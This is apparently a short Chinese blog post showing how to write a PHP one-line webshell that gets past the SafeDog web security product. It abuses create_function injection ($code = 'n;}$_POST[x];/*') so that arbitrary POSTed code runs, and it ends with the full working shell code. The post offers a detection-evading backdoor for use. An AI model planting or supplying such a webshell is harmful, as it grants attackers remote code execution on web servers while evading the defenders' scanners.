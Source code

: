 # 过狗一句话编写

[2020-04-13]()

安全狗查杀一句话的时候，通常检测eval 和 \$\_POST\[x\]有没有同时出现，正常的POST数据不拦截，然后我们将POST来的数据放到存在代码执行漏洞的函数中，这样，POST来的数据就被执行了。  

因此就想着试一试.选择的函数是create\_function函数，create\_function函数接收两个参数\$args 和 \$code 然后组成新函数function\_lambda\_func\(\$args\)\{\$code;\} 并eval\(function\_lambda\_func\(\$args\)\{\$code;\}\)，那么我们只要构造\$code来闭合\}然后将自己的代码放到函数体外面就可以执行了。

### [](#构造-code "构造$code")构造\$code

\$code = “n;\}\$\_POST\[x\];/\*”;

解释一下构造的\$code:

* 双引号中\$\_POST\[x\]被执行\(这里以提交x=phpinfo\(\);为例\)
* ;来结束语句
* \}来结束函数体

phpinfo\(\);;就在函数体外面被eval执行了

/\*注释多余的代码

最终代码：`eval(function_lambda_func($args){n;}phpinfo();;/*})`

那么phpinfo\(\)就被执行了.

如图：  
![](1.png)  
过狗测试：  
![](2.png)

最终代码：

```
<?php 
    $args = "tony";
    $code = "n;}$_POST[x];/*";
    echo create_function('$args',$code);
?>
```